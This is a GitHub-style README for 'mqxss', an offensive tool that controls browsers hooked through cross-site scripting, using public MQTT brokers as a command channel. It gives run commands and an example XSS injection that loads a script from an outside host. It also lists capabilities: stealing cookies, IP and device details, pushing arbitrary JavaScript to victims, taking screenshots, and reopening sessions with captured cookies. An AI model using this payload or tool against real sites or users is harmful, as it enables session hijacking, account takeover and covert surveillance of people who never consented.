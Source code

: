 # mqxss


## **mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




The benefit to using this over beef or xsshunter is that besides hosting the js payload there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.
 

The client utilizes the python paho.mqtt library while the js payload utilizes 'mqttws31.min.js' which it pulls from here 'https://cdnjs.cloudflare.com/ajax/libs/paho-mqtt/1.0.1/mqttws31.min.js'.
 
***
 
## Directions
 
**To generate a JS payload** to hook browsers with set the `-g` flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.  

**To run the client** provide your broker, port, and topic as so 
 
`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname`

**To run the client with credentials** provide your broker, port, user name, password and topic as so 

`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname -u username -pw password`
  
**Send your XSS payload** to the victim while the mqxss client is running, ex: `'"><script src=https://example.com/x.js> async</script>` or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

***
 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker**
- **generate js payload at runtime to hook browsers with**
- **currently only works with mqtt brokers that use secure websockets**
- **open hooked browser location with captured cookies**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [x] Set user , password  for brokers that require it at runtime
- [x] Generate js payload at runtime to hook browsers with
- [x] Open browser with hooked browser cookies for convenience
